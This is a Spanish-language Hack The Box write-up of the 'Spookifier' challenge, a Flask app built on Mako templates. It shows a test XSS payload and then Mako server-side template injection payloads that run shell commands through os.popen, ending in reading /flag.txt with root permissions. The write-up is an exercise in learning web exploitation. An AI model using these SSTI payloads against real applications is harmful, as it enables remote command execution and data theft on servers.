


# Hack The Box - Spookifier Write-up

## Descripción del Challenge

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

El objetivo es investigar y explotar vulnerabilidades en esta aplicación.

---



## Enumeración Inicial

Iniciamos el challenge accediendo a la dirección proporcionada:

```
http://83.136.254.165:36669
```


La aplicación permite ingresar un nombre, el cual es modificado automáticamente por el navegador antes de ser mostrado.


---

## Prueba de XSS

Para verificar si la aplicación es vulnerable a Cross-Site Scripting (XSS), ingresamos el siguiente payload:

```html
<script>alert(0)</script>
```


Al ejecutarlo, observamos que la alerta se dispara, lo que confirma la vulnerabilidad XSS.


---

## Análisis de la Aplicación

Tras inspeccionar los archivos descargados inicialmente, encontramos que la aplicación está dockerizada y desarrollada en **Python** utilizando **Flask** y **Mako templates**.


Mako es un motor de plantillas utilizado en aplicaciones Python, lo que nos lleva a investigar posibles vulnerabilidades de **Server-Side Template Injection (SSTI)**.


---

## Explotación de SSTI

Una buena referencia para encontrar payloads es el repositorio [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).


Probamos con el siguiente payload para verificar si el servidor evalúa expresiones en Mako:

```mako
${self.module.cache.util.os.system("id")}
```


Sin embargo, el resultado devuelto es `0`, lo que indica que el comando `id` no se ejecutó correctamente.


### Ajuste del Payload

Para corregirlo, modificamos el payload utilizando `popen` para leer la salida del comando:

```mako
${self.module.cache.util.os.popen('id').read()}
```


Esto devuelve correctamente la información del usuario, confirmando que estamos ejecutando comandos en el servidor con permisos de **root**.


---

## Obtención de la Flag

Gracias al análisis previo del contenedor Docker, sabemos la ubicación de la flag. Procedemos a leer su contenido con el siguiente payload:


```mako
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

Al ejecutarlo, obtenemos la flag correctamente.


---

## Conclusión

En este challenge:

1. Identificamos una vulnerabilidad **XSS** en la aplicación.
2. Descubrimos que usa **Mako templates**, lo que nos llevó a explorar **SSTI**.
3. Explotamos la vulnerabilidad SSTI para ejecutar comandos en el servidor.
4. Finalmente, accedimos al archivo `flag.txt` y completamos el desafío.

Este reto demuestra la importancia de validar correctamente la entrada del usuario y reforzar la seguridad en la manipulación de plantillas dinámicas en aplicaciones web.

---

> **Nota:** Este write-up es únicamente con fines educativos. Siempre solicita permiso antes de realizar pruebas de seguridad en cualquier sistema.
